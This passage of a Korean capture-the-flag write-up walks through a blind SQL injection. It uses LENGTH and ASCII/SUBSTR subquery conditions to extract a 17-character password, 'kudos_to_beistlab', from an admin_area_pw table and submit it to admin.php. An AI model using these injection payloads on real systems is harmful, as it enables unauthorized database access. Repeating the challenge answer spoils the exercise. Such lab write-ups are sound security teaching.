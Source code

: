 ~~~javascript
        |   pw   |
        | ------ |
        | answer |
        ----------
~~~
__*Note*__: `...`은 우리의 관심 밖(Out of interest)

이제 **정답(answer)**은 바로 앞에 있습니다. 테이블의 컬럼 내의 레코드는 다음과 같이 조회할 수 있습니다.
~~~sql
LENGTH((
    SELECT pw 
    FROM admin_area_pw 
    LIMIT 0, 1)) > 0;
-- true

LENGTH((
    SELECT pw 
    FROM admin_area_pw 
    LIMIT 1, 1)) > 0;
-- 오류

LENGTH((
    SELECT pw 
    FROM admin_area_pw 
    LIMIT 0, 1)) = 17;
-- true
~~~
정답(answer)은 **1개**이고, **17글자**인 것으로 확인되었습니다. 마지막으로 레코드를 다음과 같이 확인할 수 있습니다.

~~~sql
ASCII(
    SUBSTR((
        SELECT pw 
        FROM admin_area_pw 
        LIMIT 0, 1),1,1)) = 107; 
-- k

ASCII(
    SUBSTR((
        SELECT pw 
        FROM admin_area_pw 
        LIMIT 0, 1),2,1)) = 117;
-- u

...(중략)...

ASCII(
    SUBSTR((
        SELECT pw 
        FROM admin_area_pw 
        LIMIT 0, 1),17,1)) = 98;
-- b
~~~
최종적으로 `pw` 컬럼의 레코드가 `kudos_to_beistlab`인 것을 확인하였고, 이를 `./admin.php` 의 form에 넣어주면 문제는 클리어됩니다!💯
